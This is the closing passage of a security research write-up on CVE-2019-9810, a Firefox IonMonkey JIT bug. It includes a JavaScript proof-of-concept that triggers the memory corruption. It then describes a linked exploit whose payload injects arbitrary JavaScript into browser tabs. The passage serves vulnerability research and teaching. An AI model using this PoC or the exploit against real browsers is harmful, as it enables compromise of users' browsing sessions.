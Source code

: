```javascript
let Trigger = false;
let Arr = null;

function Target(Special, Idx, Value) {
    Arr[Idx] = 0x41414141;
    Special.slice();
    Arr[Idx] = Value;
}

class SoSpecial extends Array {
    static get [Symbol.species]() {
        return function() {
            if(!Trigger) {
                return;
            }

            Arr.length = 0;
            gc();
        };
    }
};

function main() {
    const Snowflake = new SoSpecial();
    Arr = new Array(0x21);
    Arr.fill(0);
    for(let Idx = 0; Idx < 0x400; Idx++) {
        Target(Snowflake, 0, Idx);
    }

    Trigger = true;
    Target(Snowflake, 0x20, 0xBB);
}

main();
```

## Conclusion

It has been quite some time that I’ve wanted to look at IonMonkey and this was a good opportunity (and a good spot to stop for now!).. We have covered quite a bit of content but obviously the engine is even more complicated as there are a bunch of things I haven't really studied yet.

At least we have uncovered the secrets of CVE-2019-9810 and its PoC as well as developed a few more commands for [sm.js](https://github.com/0vercl0k/windbg-scripts/tree/master/sm). For those that are interested in the exploit, you can find it here: [CVE-2019-9810](https://github.com/0vercl0k/CVE-2019-9810). It exploits Firefox on Windows 64-bit, loads a reflective-dll that embeds the payload. The payload infects the other tabs and sets-up a hook to inject arbitrary JavaScript. The [demo payload](https://github.com/0vercl0k/CVE-2019-9810/blob/master/payload/injected-script.js) changes the background of every visited website by the blog's background theme as well as redirecting every link to [doar-e.github.io](https://doar-e.github.io) :).
